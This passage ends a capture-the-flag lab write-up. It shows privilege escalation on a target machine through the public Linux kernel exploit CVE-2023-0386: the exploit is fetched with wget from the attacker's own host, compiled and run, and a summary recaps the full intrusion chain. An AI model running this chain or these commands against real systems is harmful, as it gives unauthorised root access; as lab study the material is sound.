 Since the mail mentioned a kernel CVE, I found my kernel information and looked for CVE's related to it.

```shell
uname -a
```

![](https://cdn.ziomsec.com/twomillion/30.webp)

![](https://cdn.ziomsec.com/twomillion/31.webp)

I looked for ways to exploit this and found this **C** code:
- [https://github.com/xkaneiki/CVE-2023-0386](https://github.com/xkaneiki/CVE-2023-0386).

I checked if **gcc** and **wget** were present.

```shell
$ which gcc
$ which wget
```

![](https://cdn.ziomsec.com/twomillion/32.webp)

II then downloaded the exploit on the target, compiled and executed it:

```shell
$ wget "http://KALI/CVE-2023-0386-master.zip"
$ unzip CVE-2023-0386-master.zip
$ make all
$ ./fuse ./ovlcap/lower ./gc
$ ./exp
```

![](https://cdn.ziomsec.com/twomillion/33.webp)

![](https://cdn.ziomsec.com/twomillion/34.webp)

![](https://cdn.ziomsec.com/twomillion/35.webp)

Finally, I moved into the *root* directory and captured the last flag.

![](https://cdn.ziomsec.com/twomillion/36.webp)

## Closure

Here's a summary of how I captured both the flags:
1. I found the */invite* panel through the source code of the main website and used it to log in as a user.
2. After logging in, I navigated to the */access* tab. Using Burp Suite, I made requests at `/api/v1/admin/settings/update` to give my account *admin* access.
3. I then visited `/api/v1/admin/settings/update` and found the credentials to log in using **ssh**.
4. In the home directory of *admin*, I found the user flag.
5. I discovered a hint on how to escalate my privileges through an email in */var/mail*.
6. I used a kernel exploit to escalate my privileges.
7. Finally, I captured the final flag in the *root* directory.

---
